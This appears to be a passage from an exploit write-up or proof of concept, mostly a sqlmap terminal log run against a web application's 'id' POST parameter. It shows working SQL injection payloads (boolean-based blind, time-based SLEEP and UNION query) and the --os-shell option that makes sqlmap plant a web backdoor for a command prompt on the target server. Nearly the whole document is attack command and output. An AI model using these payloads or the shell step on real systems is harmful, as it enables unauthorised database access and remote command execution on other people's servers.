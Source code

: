 ![11](screenshots/11.png)

```bash
$ sqlmap -r req.txt --level=5 --risk=3 --os-shell -p id
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:04:04 /2023-03-15/

[11:04:04] [INFO] parsing HTTP request from 'req.txt'
[11:04:04] [INFO] resuming back-end DBMS 'mysql'
[11:04:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: aksi=fetch&id=76 AND 3299=3299

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aksi=fetch&id=76 AND (SELECT 3545 FROM (SELECT(SLEEP(5)))lTrF)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: aksi=fetch&id=-4039 UNION ALL SELECT NULL,CONCAT(0x7162787171,0x77456d6a454c4d6c504d7951686d7a477a5451477a6c6c6b7153566c4d6c694d63624976456e6850,0x71707a7871),NULL,NULL,NULL-- -
---
[11:04:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:04:04] [INFO] going to use a web backdoor for command prompt
```